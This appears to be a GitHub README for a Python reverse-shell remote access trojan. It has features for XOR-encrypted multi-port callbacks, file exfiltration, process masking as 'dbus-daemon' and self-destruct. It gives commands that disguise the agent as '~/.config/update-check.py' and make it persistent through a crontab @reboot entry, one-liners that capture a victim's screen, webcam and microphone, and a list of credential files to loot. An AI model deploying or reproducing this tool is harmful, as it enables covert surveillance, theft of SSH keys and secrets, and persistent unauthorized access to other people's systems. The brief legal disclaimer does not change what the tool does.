 
# 🐍 Advanced Reverse Shell RAT (Multi-port, XOR, Recon, Persistence)

## 📘 Learning Path Progression

1. 🛠️ Socket Shell Basics
2. 🔁 Bind & Reverse Hybrid Shells
3. 🔐 XOR Encrypted Communication
4. 📥 File Download (`get`)
5. 📜 Multiline Response Handling
6. 🎯 Recon Command (System Looting)
7. 🔁 Crontab Persistence
8. 👻 Process Renaming
9. 🔥 Multi-Port Reverse Shell
10. 💣 Self-Destruct Feature

---

## 🚀 Features

- Reverse shell using XOR encryption over multiple ports (443, 53, 8080)
- Executes shell commands with multi-line response support
- Supports `get <file>` for file exfiltration
- `recon`: automated data collection on victim
- `selfdestruct`: safely removes agent
- Optional: Process title masking (e.g., `dbus-daemon`)
- Persistence using `crontab`

---

## 🔄 Usage Instructions

### On Kali (Controller)
```bash
python3 listener_xor.py
```

> Listens on ports 443, 53, and 8080 for incoming reverse shells.

### On Ubuntu (Victim)

Edit `agent_reverse.py` and update:
```python
CONTROLLER_IP = "192.168.56.10"  # your Kali IP
```

Run in background:
```bash
pkill -f agent.py
nohup python3 ~/.config/update-check.py &>/dev/null &
```

Enable persistence:
```bash
(crontab -l 2>/dev/null; echo "@reboot nohup python3 ~/.config/update-check.py &") | crontab -
```

---

## 🎮 Cool Commands to Run

### 📷 Screenshot
```bash
scrot /tmp/screen.png && sleep 1 && get /tmp/screen.png
```

### 📸 Webcam
```bash
fswebcam /tmp/webcam.jpg && sleep 1 && get /tmp/webcam.jpg
```

### 🎤 Microphone
```bash
arecord -f cd -d 10 /tmp/audio.wav && get /tmp/audio.wav
```

### 🧠 Recon Command
```bash
recon
```

### 💣 Self-Destruct
```bash
selfdestruct
```

Deletes the agent script from disk.

---

## 📂 Valuable Files to Loot

- `/etc/passwd`, `/etc/group`, `/etc/sudoers`
- `~/.ssh/id_rsa`, `~/.bash_history`
- `/etc/NetworkManager/system-connections/*`
- `.env`, `config.json`, `.git`, browser profiles

---

## 🛡️ Security Score

| Category        | Score | Notes |
|-----------------|-------|-------|
| Stealth         | 7/10  | XOR, multi-port, process rename |
| Resilience      | 8/10  | Crontab + port fallback |
| Detection Risk  | 5/10  | Reverse shell visible to firewalls |
| Educational Use | 🔟     | Ideal for real-world red team skills |

---

## ⚠️ Legal Disclaimer

This tool is for educational and authorized use only.
**Do not deploy** on systems you do not own or have written permission to test.

---

Built to learn. Built to bypass. Built to improve. 🧙🏽‍♂️

mkdir -p ~/.config
cp reverse_shell_againt.py ~/.config/update-check.py
(crontab -l 2>/dev/null; echo "@reboot python3 ~/.config/update-check.py &") | crontab -

